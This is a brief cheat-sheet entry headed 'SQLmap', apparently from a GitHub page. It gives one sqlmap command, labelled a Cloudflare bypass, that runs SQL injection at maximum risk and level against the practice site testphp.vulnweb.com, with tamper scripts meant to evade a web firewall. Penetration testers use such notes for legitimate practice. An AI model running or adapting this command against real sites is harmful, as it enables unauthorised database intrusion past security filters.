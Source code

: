 <h1>SQLmap</h1>

### Cloudflare            bypass tamper=space2comment,between,randomcase
```
sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1*" --batch --random-agent --risk=3 --level=5 --current-db --tamper=space2comment,between,randomcase --no-cast
```
